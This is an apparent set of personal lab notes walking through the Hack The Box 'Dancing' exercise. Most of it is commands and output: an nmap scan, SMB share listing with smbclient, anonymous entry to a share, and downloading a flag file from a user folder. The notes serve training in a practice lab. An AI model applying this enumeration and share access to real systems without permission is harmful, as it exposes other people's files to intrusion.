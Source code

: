 # Security Exercises 

### openpgp for cryptographic key sharing on linux kernel

### Hackthebox -Starting-point-Dancing exercise

`nmap -sV 10.129.110.188`

nmap command shows services running on respective ports
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-01 18:16 CET
Nmap scan report for 10.129.110.188
Host is up (0.030s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

smb refers to server message block, a common client server communication protocol 
You can use smbclient to access the smb share
Use help command to see command usage
`smbclient -h`

```bash
Usage: smbclient [-?EgqBNPkV] [-?|--help] [--usage] [-M|--message=HOST]
        [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan]
        [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES]
        [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet]
        [-B|--browse] [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout]
        [-s|--configfile=CONFIGFILE] [--option=name=value]
        [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full]
        [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS]
        [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME]
        [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM]
        [-U|--user=[DOMAIN/]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING]
        [--pw-nt-hash] [-A|--authentication-file=FILE] [-P|--machine-pass]
        [--simple-bind-dn=DN] [--use-kerberos=desired|required|off]
        [--use-krb5-ccache=CCACHE] [--use-winbind-ccache]
        [--client-protection=sign|encrypt|off] [-k|--kerberos] [-V|--version]
        [OPTIONS] service <password>
```


Use smbclient command to connect to ip address of target machine given on hackthebox
`sudo smbclient -L 10.129.110.188`

```bash

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk  
```

use command to get into disk
`smbclient \\\\10.129.110.188\\Workshares`

you're inside! now look around and capture the flag
```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1751194 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

                5114111 blocks of size 4096. 1751178 blocks available
smb: \Amy.J\> 
smb: \Amy.J\> Amy.j
Amy.j: command not found
smb: \Amy.J\> cd /
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1751178 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)
```
